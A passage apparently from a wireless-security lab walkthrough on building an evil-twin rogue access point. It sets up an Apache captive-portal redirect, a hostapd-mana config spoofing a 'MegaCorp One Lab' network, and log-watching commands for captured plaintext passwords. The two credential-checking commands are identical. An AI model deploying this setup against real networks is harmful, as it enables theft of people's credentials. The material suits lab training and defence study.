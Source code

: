 ```bash

  # Catch-all rule to redirect other possible attempts
  RewriteCond %{REQUEST_URI} !^/portal/ [NC]
  RewriteRule ^(.*)$ https://192.168.87.1/portal/index.php [L]

  # Use existing snakeoil certificates
  SSLCertificateFile /etc/ssl/certs/ssl-cert-snakeoil.pem
  SSLCertificateKeyFile /etc/ssl/private/ssl-cert-snakeoil.key
</VirtualHost>
```

We enable both modules
```bash
sudo a2enmod rewrite
sudo a2enmod alias

# For google chrome
sudo a2enmod ssl
```

Restart apache
```bash
systemctl restart apache2
```

-----------------------

# Setting up Rogue AP

Create interface hostapd-mana file with ssid and channel targetting the interface 
```bash
interface=wlan0
ssid=MegaCorp One Lab
channel=11

# 802.11n
hw_mode=g
ieee80211n=1

# Uncomment the following lines to use OWE instead of an open network
#wpa=2
#ieee80211w=2
#wpa_key_mgmt=OWE
#rsn_pairwise=CCMP
```

Start server
```bash
sudo hostapd -B mco-hostapd.conf
```

-----------------------

# Gathering credentials

Check the logs for success attempts
```bash
sudo tail -f /var/log/syslog | grep -E '(dnsmasq|hostapd)'
```

Once we see a success, check the plaintext passwords
```bash
sudo tail -f /var/log/syslog | grep -E '(dnsmasq|hostapd)'
```
